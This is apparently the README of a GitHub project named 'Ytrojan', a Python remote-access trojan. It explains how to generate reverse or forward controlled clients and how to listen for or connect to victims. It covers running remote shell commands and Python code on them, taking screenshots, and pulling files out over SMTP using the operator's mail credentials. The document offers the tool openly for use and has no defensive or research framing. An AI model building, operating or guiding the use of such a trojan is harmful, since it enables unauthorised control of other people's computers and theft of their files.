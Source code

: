 # Ytrojan

## Select Your Language

   English | [简体中文](/README_zh-CN.md)

## How to use?

Run Main-Cmd.py with Python 3.10 or higher
Program running result：
```
__   ___             _             
\ \ / / |_ _ __ ___ (_) __ _ _ __  
 \ V /| __| '__/ _ \| |/ _` | '_ \ 
  | | | |_| | | (_) | | (_| | | | |
  |_|  \__|_|  \___// |\__,_|_| |_|
                  |__/             
                                      
Ytrojan $>
```  

### Use the "generate" command to generate the Controlled Client

```
generate [Option] [Path] [Ip] [Port]
1. [Option] 0 or 1
    When the option is 0, generate reverse controlled client
    When the option is 1, generate forward controlled client
2. [Path] The place where the controlled client is generated
3. [ip] Target host (or your computer) IP
   [port] Target host (or your computer) port
    When "option" is 0, ip and port are your computer's
    When "option" is 1, ip and port are those of the controlled client
    When parameters $> appears, it means that you need to select the function of the controlled client you want
    Currently supported functions are: shell, getfile, pycmd
    For example, if you want the controlled client to be able to execute shell and py statements, you can do this:
    parameters $>shell pycmd
````

### Use the "connect" command to connect to the forward host

````
connect [ip] [port]
1. [ip][port] are all target
2. This command should be run after the controlled client runs
````

### Use the "listen" command to connect to the reverse host

````
listen [ip] [port]
1. [ip][port] are your computer
2. This command should be run before the controlled client
````

### How to control the target

After connecting to the target, you can operate the target with the following commands:
(connecting to the target might output "ip $>")

````
1. shell [Command] #Execute shell command
2. getfile [Path] #Get the file
3. pycmd [Code] #Execute python code
````

E.g.
````
1. shell whoami #Execute whoami command
   shell id
   shell ls
2. getfile a.txt #Get a.txt
   getfile /a.jpg #Get a.jpg in the root directory
3. win #Get the current screenshot
4. pycmd print('hello world') #output hello world
   pycmd import os; print(os.name)
````

### Attention!
Because shell commands are not interactive shells you cannot execute commands like "vim" and "sudo"!

The "getfile" command use the smtp protocol to transfer files. You must do the following before using these command!!!

````
$> pycmd host = "smtp server domain name" #For example, NetEase mailbox is smtp.163.com
YES
$> pycmd port = "smtp service port" #usually port 25
YES
$> pycmd username = "your email"
YES
$> pycmd password = "The password provided to you by the smtp service operator"
YES
$>...
````
